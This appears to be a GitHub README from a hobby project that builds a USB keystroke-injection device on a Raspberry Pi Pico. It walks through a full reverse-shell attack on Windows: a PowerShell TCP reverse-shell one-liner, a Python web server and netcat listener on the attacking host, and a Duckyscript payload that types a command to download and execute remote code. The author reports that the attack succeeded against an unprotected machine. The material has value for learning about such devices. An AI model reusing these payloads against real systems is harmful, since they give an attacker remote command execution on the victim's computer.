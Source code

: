 # Task 5: Working with Payloads

In the last four weeks, I have learned how the PICO works, connected physical buttons and worked out how the virtual keyboard works. With the knowledge of the device, Circuit Python and libraries, I started work on getting scripts running. I was helped with the code from Doge Wallet "https://github.com/dbisu/pico-ducky". He had already completed some operational functions. However, when tested, this did not work correctly. I have forked his repo to my own and updated the code base; its located here: <https://github.com/CraigWilsonOZ/pico-ducky/tree/main>

Now it's time to run some scripts. The scripts use the Hak5 Rubby Ducky script syntax. The Hak5 Rubber Ducky script syntax can be found here: <https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript>

The script we will try will create a reverse shell:

Step 1: On a Linux workstation, create a "payload.ps1" file and paste the following code. Update IPADDRESS with your Linux workstation IP

Payload.ps1:

```powershell
$sm=(New-Object Net.Sockets.TCPClient("IPADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Step 2: Open two terminal windows; in the first run,

```bash
python3 -m http.server
```

This will create a small web server from which to download files. Next, run this Netcat command in the other terminal.  

```bash
while true; do nc -l -p 4444; done
```

Now we have our attacking host up, update the payload.py file on the PICO with this file:

Payload.py:

```python
REM Reverse Shell
DELAY 1000
GUI r
DELAY 100
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.86.219:8000/payload-5.ps1');"
ENTER
```

Now we have our scripts ready, payloads all set time for testing. Connect the PICO to a Windows workstation.

The first test failed for me due to my Windows Defender configuration.
![Failed](./images/2022-02-13_19-14-35.png)

Next tried on an unprotected host, success!
![Working](./images/2022-02-13_19-14-35.png)

The Linux host uses the same process but uses a new reverse shell. These can be found here: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

Now that we have created a payload, its time to start playing with other strips.

* [Task 1: The Pico and Setup of envirnoment](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%201/readme.md)
* [Task 2: Setting up hard switch, LED and basic keyboard](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%202/readme.md)
* [Task 3: Loading files and sending keys](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%203/readme.md)
* [Task 4: Creating scripts and basic payloads](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%204/readme.md)
* [Task 5: Working with Payloads](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%205/readme.md)
